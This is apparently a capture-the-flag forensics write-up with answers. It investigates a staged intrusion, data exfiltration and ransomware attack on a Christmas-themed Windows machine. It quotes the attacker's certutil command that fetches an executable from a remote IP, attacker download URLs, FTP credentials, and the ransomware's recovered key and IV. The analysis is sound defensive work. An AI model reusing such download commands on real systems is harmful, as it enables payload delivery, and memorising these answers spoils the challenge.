## 1. What is the hostname from which the attacker laterally moved to Santa's computer?
Use Security event logs -> successful logon
-> Answer: Northpole-TOYSQ

## 2. When did Krampus log in to the machine?
Same source as question 1
-> Answer: 2024-12-10 10:38:58

## 3. The attacker navigated the file share in hopes of finding useful files. What is the file share path for something planned for Christmas Eve?
In Autopsy RecentDocs: file cristmas-eve-PRIORITY.lnk
Answer:\\NORTHPOLE-FS\fileshare\kitchen-prep\cristmas-eve-PRIORITY\

## 4. When did the attacker visit this share?
In ShellBags, folder cristmas-eve-PRIORITY
Answer: 2024-12-10 10:41:40

## 5. What is the filename of the file related to complaints from a department? The attacker found this on the share and also added it to the archive to exfiltrate.
In Autopsy RecentDocs: file toys-dept.txt
-> Answer:toys-dept.txt

## 6. Windows Defender detected and stopped the first attempt of the attacker to download a file from their infrastructure. What is the full command that was executed by the attacker, which Defender detected and stopped?
In event logs Microsoft-Windows-Windows Defender:

-> Answer : C:\Windows\System32\certutil.exe -urlcache -f http://3.110.162.216:8175/OpXmasDestroy/Collection/package.exe

## 7. The attacker proceeded to disable Windows real-time protection in order to evade defenses. When did this activity occur?
In event logs Microsoft-Windows-Windows Defender:


-> Answer:2024-12-10 10:44:10

## 8. The attacker copied a file and moved it from one location to another using 7zip. What is the full path where this file was moved to?
RegRipper 7-zip plugin: rip.exe -r NTUSER.dat -a

->Answer:C:\Users\Public\scan\

## 9. The attacker also enumerated a zip file using 7zip on Santa's desktop.  What is the path of the folder related to the Christmas bonus present inside that zip?

Xem cau 8
See question 8
-> Answer: C:\Users\santa\Desktop\finance_christmas.zip\finance_christmas\Employees\performance_bonus_24
## 10. What was the name of the archive file created by 7zip?

See question 8
-> Answer: scan87x.zip

## 11. The attacker installed 7zip on the system and added some files to be archived. What was the last filesystem path visited by Krampus using 7zip?

See question 8
->Answer: C:\Program Files (x86)\WindowsPowerShell\Configuration\Registration\

## 12. The attacker downloaded installers from their infrastructure for data exfiltration and 
collection. What is the full download URL for the tool used for exfiltration?
When downloaded via Certutil, metadata and content are stored in /C/Users/santa/AppData/LocalLow/Microsoft/CryptnetUrlCache

->Answer: http://3.110.162.216:8175/OpXmasDestroy/exfil/Godzilla.exe

## 13. What is the name of the tool used for exfiltration?
Check the content of file 6CCBC365A82629F3E88D81A67A497B46


->Answer: Filezilla

## 14. The attacker renamed the zip before exfiltrating it. What was the name changed to?
Check Jump List to see recently opened folders

-> Answer : transfer_scanned.zip

## 15. What is the set of credentials used by Krampus to exfiltrate data to his server?
From previous steps, we know the attacker downloaded FileZilla for exfiltration -> check FileZilla folder at `\C\Users\santa\AppData\Roaming\FileZilla`
-> Answer: rampus:ihavetodestroychristmasxoxo


## 16. Determine the full path where the files from Santa's computer were exfiltrated and 
stored on Krampus's server.
Continue by checking file `\C\Users\santa\AppData\Roaming\FileZilla\fileZilla`

-> Answer: /home/krampus/ChristmasOP/santaloot

## 17. Krampus then proceeded to download ransomware on the system. What is the SHA
256 hash of the executable?
Because the attacker used Certutil to download files, cache is stored at `C:\Users\santa\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`
Since two files were already analyzed above, the remaining file is `5A76AD1C83439FFADFAE13FB9B08A8AA`

This is a zip file, so extract it

-> Answer : 808f098b303d6143e317dd8dae9e67ac8d2bcb445427d221aa9ad838aa150de3

## 18. What is the full download URL for the ransomware file?

-> Answer : http://3.109.152.7/final_operation/destroyer.zip
## 19. When was the ransomware binary executed according to prefetch?
-> Answer : 2024-12-10 11:06:30

## 20. Reverse engineer the ransomware. What was the IV used for encryption?
After extracting destroyer.zip, there are 2 files: krampus.exe and krampus.jsc. Most likely, krampus.exe is a packed form of krampus.jsc (jsc is compiled JavaScript). Verify with DIE.

Since the .jsc file is already available, there is no need to unpack. Decompile krampus.jsc with view8.

Then read the source strings

From the code, IV is generated by decoding base64 string `e14dNxBWFENJZkxWXl8ESw==` and then calling function `func_xor_0000010BB21DE319` with string `C:/Users/Public/file.txt`

Applying the XOR function above gives:
-> Answer : 8d2bc3f0f69426gd

## 21. What was the Key used for encryption?
Similarly, for the key, it calls function func_xor_0000010BB21DE319 with 2 parameters: decoded base64 `EX9bMiVXRhFrEkIaOzAMYhMQHAxsNSs5RSJwTTZGXBw=` and string `C:/Users/Public/file.txt`
-> Answer : REtgV24bDB7xWYoMuypiBASMEaJbc59n

## 22. Decrypt the encrypted files and find the name of the extra naughty kid.

At Desktop/Chrismas24, file `Naughty_List_Christmas24.pdf.krampus` is encrypted. Apply the IV and key above to decrypt these files using OpenSSL, then decode base64 (note: convert to binary first with `xxd -r -p`)


-> Answer : Tenzin

## 23. Decrypt the encrypted files and find the name of the employee getting a promotion 
and salary increment
Same method as above with file `Desktop/Promotion/Christmas_Promotions_List.xlsx.krampus`
Answer: parkleSugarglow

## 24. When did the threat actor log off?

Check event logs

-> Answer: 
2024-12-10 11:10:19
